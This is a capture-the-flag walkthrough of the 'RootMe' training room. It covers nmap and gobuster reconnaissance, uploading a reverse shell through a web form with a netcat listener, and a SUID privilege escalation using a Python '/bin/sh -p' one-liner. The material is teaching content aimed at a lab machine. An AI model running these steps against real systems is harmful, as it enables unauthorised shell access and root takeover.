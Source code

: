 # RootMe

![RootMe](./images/RootMe.png)

The room is listed as an easy room, and covers a lot of different tools and aspects of security, which makes it a great room to complete for beginners.
An overview of what we’ll be using is listed here:  

* Basic linux commands
* Nmap scan
* Gobuster
* Netcat

## Task 1 - Deploy the machine

Set up environment IP as IP_Machine

```
export IP=10.10.234.161
```

![task1-IP](./images/task1-IP.png)

## Task 2 - Reconnaissance

* Scan the machine, how many ports are open?
	
	```
	nmap -sV $IP | tee -a nmap-default.txt
	```

	File scan resulted [here](./files/nmap-default.txt)

	![task2-nmap](./images/task2-nmap.png)

* What version of Apache is running?
	
	![task2-version](./images/task2-version.png)

* What service is running on port 22?
	
	![task2-ssh](./images/task2-ssh.png)

* Find directories on the web server using the GoBuster tool. What is the hidden directory?
	
	```
	gobuster dir -w /usr/share/wordlists/dirb/common.txt -u $IP | tee -a gobuster-default.txt
	```

	File scan resulted [here](./files/gobuster-default.txt)

	![task2-gobuster](./images/task2-gobuster.png)
	

## Task 3 - Getting a shell

* Find a form to upload and get a reverse shell, and find the flag `user.txt`
	
	* Upload reverse shell 
		
		![task3-reverse](./images/task3-reverse.png)

	* Open terminal for netcat listening
	
		```
		nc -nvlp 8888
		```

		![task3-nc](./images/task3-nc.png)

	* Open file upload from website
	
		![task3-shell](./images/task3-shell.png)

	* Get access to server

		![task3-access](./images/task3-access.png)

	* Find and read file `user.txt`
	
		![task3-user-txt](./images/task3-user-txt.png)

## Task 4 - Privilege escalation

* Search for files with SUID permission, which file is weird? 

	```
	find / -type f -perm -4000 -ls 2>/dev/null
	```

	![task4-find](./images/task4-find.png)

* root.txt

	```
	/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
	```

	![task4-root-txt](./images/task4-root-txt.png)



